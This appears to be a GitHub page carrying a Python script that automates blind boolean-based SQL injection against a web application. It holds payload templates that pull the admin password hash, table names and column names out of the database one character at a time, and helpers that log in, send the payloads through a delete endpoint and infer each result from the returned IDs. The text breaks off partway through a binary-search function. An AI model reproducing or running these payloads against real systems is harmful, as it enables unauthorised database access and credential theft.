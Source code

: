 ```python
admin_hash_payload = "@ID@ AND Ascii(substring((SELECT password FROM user WHERE username='admin' LIMIT @rOFFSET@,1),@wOFFSET@,1))>@cORD@"
tables_payload = "@ID@ AND Ascii(substring((SELECT table_name FROM information_schema.tables WHERE table_schema = database() LIMIT @rOFFSET@,1),@wOFFSET@,1))>@cORD@"
columns_user_payload = "@ID@ AND Ascii(substring((SELECT column_name FROM information_schema.columns WHERE table_name = 'user' LIMIT @rOFFSET@,1),@wOFFSET@,1))>@cORD@"
columns_point_payload = "@ID@ AND Ascii(substring((SELECT column_name FROM information_schema.columns WHERE table_name = 'point' LIMIT @rOFFSET@,1),@wOFFSET@,1))>@cORD@"

def printInPlace(alert):
	if fancy_console: 
		print(alert, end="\b"*len(alert), flush=True)
	return fancy_console

def isLogged():
	debug = requests.get(url_debug, cookies=sessid)
	i = debug.text.find("[user]")
	return False if i==-1 else True

def createPayload( query ):
	return payload_base.replace("@LENGTH@", str(len(query))).replace("@QUERY@", query)

def sendPayload ( query ):
	if sillent == False: print ("exec: WHERE ID= {}".format(query))
	payload = createPayload(query)
	delete = requests.get(url_delete+payload, cookies=sessid)
	return findIDs(delete.text)

def logIn(login_info):
	global sessid
	print ("loggin in: ", login_info)
	login = requests.post(url_login, data=login_info, allow_redirects=False)
	sessid = login.cookies.copy()
	return

def findIDs(text):
	regex = re.compile(r"ID:\s(\d{6})")
	matches = regex.findall(text)
	return matches

def addPoints():
	alert = "      [[Adding points]]"
	if printInPlace(alert) == False and sillent == False: 
		print("[[Adding points]]")
	for x in range(1, 30):
		point = {'x': 0, 'y': 0}
		requests.post(url_addpoint, data=point, cookies=sessid, allow_redirects=False)
	printInPlace(" "*len(alert))
	return

def tryPayload(str):
	global init_array
	if(len(init_array) <= 1):
		addPoints()
		init_array = sendPayload("1")
	oldLen = len(init_array)
	init_array = sendPayload(str)
	return oldLen != len(init_array)

#bin-search ASCII inside [alphabet]
def findName(payload, alphabet):
	a = 0
	b = len(alphabet)-1
```

[vulnerabilites]: <https://www.cvedetails.com/vulnerability-list/vendor_id-74/product_id-128/version_id-164957/PHP-PHP-5.5.9.html>